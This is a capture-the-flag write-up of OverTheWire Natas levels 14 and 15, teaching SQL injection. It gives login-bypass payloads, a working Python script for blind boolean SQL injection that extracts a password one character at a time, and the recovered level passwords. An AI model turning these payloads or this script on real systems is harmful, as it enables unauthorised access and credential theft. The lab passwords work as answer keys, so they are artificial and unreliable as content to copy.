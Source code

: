 ```yaml
---
layout: post
title: "OverTheWire: Natas 14 and 15"
date: 2016-11-15 12:00:00
share: true
comments: true
tags: [OverTheWire - Natas]
---
```


Starting this challenge, we'll be doing some fun SQL injection challenges. You may want to read about SQL, Regex and Python for easier understanding.

## Natas 14

Taking a look at the source code shows how the query is generated:

```php
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>
```


Query:
```sql
SELECT * from users where username="someusername" and password="somepassword"
```

You'll notice that the user input is not being filtered, which means we can use escape characters to make the query act differently than it should be.
Since we're trying to log in as Natas15, let's manipulate the query in a way that will bypass checking for a valid password.

All the following combinations work (among many others):

  * **User**: `natas15" #`
    **Pass**: *empty*
    **Query**:
```sql
    SELECT * from users where username="natas15" # and password =""
```


  * **User**: `" or 1 = 1 #`
    **Pass**: *empty*
    **Query**:
```sql
    SELECT * from users where username="" or 1 = 1 # and password = ""
```

  * **User**: `natas15`
    **Pass**: `" or "1"="1`
    **Query**:
```sql
    SELECT * from users where username="natas15" and password = "" or "1" = "1"
```

Successful login! The password for natas15 is `AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J`.

_______________________________________________________

## Natas 15

```php
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```

In this example we'll be introduced to [blind-based SQL injection](https://www.exploit-db.com/docs/17397.pdf), more specifically to boolean based one.
Inspecting the source code above shows us that no data from the database issent directly to us, instead we get 3 types of responses depending on our query.

How can we retrieve the password? By asking questions! Like, does the password contain the letter 'a'? Does the letter 'x' come first?

Python script consists of two steps:

  1. Find a reduced sample size to bruteforce the password (since the number of valid characters is 62, and the password is only 32 characters long) without caring about position.
  2. Use the smaller set to get the exact word, password is an empty string where you keep looping for the next character, append it to the password and repeat, till you get the 32 characters long password.

```python
import requests
from requests.auth import HTTPBasicAuth

chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
filtered = ''
passwd = ''

for char in chars:
    Data = {'username' : 'natas16" and password LIKE BINARY "%' + char + '%" #'}
    r = requests.post('http://natas15.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data = Data)
    if 'exists' in r.text :
        filtered = filtered + char

for i in range(0,32):
    for char in filtered:
        Data = {'username' : 'natas16" and password LIKE BINARY "' + passwd + char + '%" #'}
        r = requests.post('http://natas15.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data = Data)
        if 'exists' in r.text :
            passwd = passwd + char
            print(passwd)
            break
```

If we didn't reduce our sample size, code complexity would've been `O(32 ^ 62)`, instead it became `O(62 + 32^25)`, which is much, much faster.

Output:
```
W
Wa
WaI
WaIH
WaIHE
WaIHEa
WaIHEac
WaIHEacj
WaIHEacj6
WaIHEacj63
WaIHEacj63w
WaIHEacj63wn
WaIHEacj63wnN
WaIHEacj63wnNI
WaIHEacj63wnNIB
WaIHEacj63wnNIBR
WaIHEacj63wnNIBRO
WaIHEacj63wnNIBROH
WaIHEacj63wnNIBROHe
WaIHEacj63wnNIBROHeq
WaIHEacj63wnNIBROHeqi
WaIHEacj63wnNIBROHeqi3
WaIHEacj63wnNIBROHeqi3p
WaIHEacj63wnNIBROHeqi3p9
WaIHEacj63wnNIBROHeqi3p9t
WaIHEacj63wnNIBROHeqi3p9t0
WaIHEacj63wnNIBROHeqi3p9t0m
WaIHEacj63wnNIBROHeqi3p9t0m5
WaIHEacj63wnNIBROHeqi3p9t0m5n
WaIHEacj63wnNIBROHeqi3p9t0m5nh
WaIHEacj63wnNIBROHeqi3p9t0m5nhm
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```

Natas16 password is `WaIHEacj63wnNIBROHeqi3p9t0m5nhmh`.
